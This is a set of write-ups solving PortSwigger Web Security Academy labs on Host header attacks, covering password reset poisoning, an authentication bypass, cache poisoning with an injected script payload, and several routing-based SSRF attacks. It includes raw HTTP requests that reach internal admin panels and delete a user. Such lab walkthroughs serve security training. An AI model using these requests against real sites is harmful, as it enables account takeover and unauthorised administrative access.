Basic password reset poisoning
==============================

This lab is vulnerable to password reset poisoning. The user carlos will
carelessly click on any links in emails that he receives. To solve the lab, log
in to Carlos's account.

You can log in to your own account using the following credentials:
wiener:peter. Any emails sent to this account can be read via the email client
on the exploit server.

References:

-   https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning



There is a function to restore forgotten passwords:



It generates a POST request for the user “wiener”:



We can change the “Host” header for the POST request to “/forgot-password” and
the “username” parameter to the value “carlos”:



And there is a request to the exploit server:



Using this token we can change the password:



And access the page as carlos:



2 Host header authentication bypass
=================================

This lab makes an assumption about the privilege level of the user based on the
HTTP Host header.

To solve the lab, access the admin panel and delete Carlos's account.

References:

-   https://portswigger.net/web-security/host-header/exploiting



If we try to access /admin we get this error:



We can access using the value “localhost” in the “Host” header:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /admin HTTP/2
Host: localhost
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



And delete the user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /admin/delete?username=carlos HTTP/2
Host: localhost
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




3 Web cache poisoning via ambiguous requests

This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page.

To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser.

---------------------------------------------

References: 

- https://portswigger.net/web-security/host-header/exploiting


---------------------------------------------

We can not find the cache keys using “Pragma: x-get-cache-key” but we can read from the response headers that the cache lasts 30 seconds. 

The “Host” header is reflected but if you use a random one there is a gateway error, so it is necessary to use 2, the first one, malicious, is reflected and the second is the legitimate one:


We can execute Javascript code with a payload like this:

```
GET / HTTP/2
Host: testing123"></script><script>alert(document.cookie)</script><script>
Host: 0af500ba04a9e93b802c499200750009.web-security-academy.net
...
```


And we see the alert with the cookie:


4 Routing-based SSRF
==================

This lab is vulnerable to routing-based SSRF via the Host header. You can
exploit this to access an insecure intranet admin panel located on an internal
IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24
range, then delete Carlos.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/host-header/exploiting



Intercept a request to “/” and change the “Host” header for a Burp collaborator
url:



The domain is resolved:



Then send the request to Intruder:



We find an admin panel at 192.168.0.127:



It seems it is a POST request:



But I tried a GET request and it works as well:




5 - SSRF via flawed request parsing
===================================

This lab is vulnerable to routing-based SSRF due to its flawed parsing of the
request's intended host. You can exploit this to access an insecure intranet
admin panel located at an internal IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24
range, then delete Carlos.



Link:
https://portswigger.net/web-security/host-header/exploiting\#routing-based-ssrf



https://0a5100f104ffdc65c3832510004000cf.web-security-academy.net/

If you supply the domain of your Collaborator server in the Host header, and
subsequently receive a DNS lookup from the target server or another in-path
system, this indicates that you may be able to route requests to arbitrary
domains.

Error in Host header for "/product?productId=1":



Gateway error when adding a second Host header:



Send to Intruder:



Using 192.168.0.113 we get a 404 error:





Repeat the request with the product ID, add the second Host header with that IP
address and change path to "/update":



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /admin/ HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get this page:



Deleting the user is not possible, so I repeated the process and captured the
response:



We will send a new request to delete the user knowing the endpoint is
/admin/delete and the parameter is probably username:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get the error:



Let's repeat the process and add the csrf value in the response to the previous
GET request ("IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv"):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos&csrf=IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We get a 302 redirection:



Lab is solved:



Host validation bypass via connection state attack
==================================================

This lab is vulnerable to routing-based SSRF via the Host header. Although the
front-end server may initially appear to perform robust validation of the Host
header, it makes assumptions about all requests on a connection based on the
first request it receives.

To solve the lab, exploit this behavior to access an internal admin panel
located at 192.168.0.1/admin, then delete the user carlos.

Note: Solving this lab requires features first released in Burp Suite 2022.8.1.

This lab is based on real-world vulnerabilities discovered by PortSwigger
Research. For more details, check out Browser-Powered Desync Attacks: A New
Frontier in HTTP Request Smuggling.

References:

-   https://portswigger.net/web-security/host-header/exploiting

-   https://portswigger.net/research/browser-powered-desync-attacks\#state





First send a request to the home page using the legitimate “Host” header:



Then quickly send a request to “/admin” changing the “Host” header to
“192.168.0.1”:



After a redirection you get to the admin panel and can find the “csrf” value:



After sending a request to “/” with the legitimate “Host” header, send the
request to delete the user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET / HTTP/2
Host: 0a6a005e030d906b874c2bf300490073.web-security-academy.net
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /admin/delete HTTP/2
Host: 192.168.0.1
...

username=carlos&csrf=CY6qJXGEMwYMKu0z18mEKfFo2zAoE866
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


